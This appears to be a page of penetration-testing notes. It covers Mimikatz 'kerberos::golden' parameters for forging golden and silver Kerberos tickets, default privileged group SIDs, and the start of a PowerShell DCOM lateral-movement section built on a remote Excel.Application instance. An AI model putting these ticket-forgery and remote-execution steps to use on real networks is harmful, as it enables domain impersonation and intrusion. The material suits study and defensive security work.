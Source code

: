 ##### Mimikatz Silver Ticket Command Reference

The Mimikatz command to create a golden or silver ticket is “kerberos::golden”

```bash
/domain # the fully qualified domain name. In this example: “lab.adsecurity.org”.
/sid #– the SID of the domain. In this example: “S-1-5-21-1473643419-774954089-2222329127”.
/user # username to impersonate
/groups # (optional) – group RIDs the user is a member of (the first is the primary group)
# default: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).
/ticket # (optional) – provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
/ptt # as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
/id # (optional) user RID. Mimikatz default is 500 (the default Administrator account RID).
/startoffset # (optional) the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
/endin # (optional) ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).
/renewmax # (optional) maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).
```


Silver Ticket Required Parameters:

```bash
/target # the target server’s FQDN.
/service # the kerberos service running on the target server. This is the Service Principal Name class (or type) such as cifs, http, mssql.
/rc4 # the NTLM hash for the service (computer account or user account)
```


Silver Ticket Default Groups:

```bash
Domain Users SID: S-1-5-21<DOMAINID>-513
Domain Admins SID: S-1-5-21<DOMAINID>-512
Schema Admins SID: S-1-5-21<DOMAINID>-518
Enterprise Admins SID: S-1-5-21<DOMAINID>-519
Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520
```
### Distributed Component Object Model (DCOM)

Requires local admin rights on the remote machine (and maybe domain)

#### Discover the available methods for an object

Using Microsoft Excel as an example:

1. Create an instance of the object in question (Ex. Excel) called `$com`

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   
   # Options
   [activator]::CreateInstance		# Creates the instance
   GetTypeFromProgId		# Used to get the type to supply to CreateInstance
   "Excel.Application","172.16.216.5"	# Program ID and IP of source
   ```

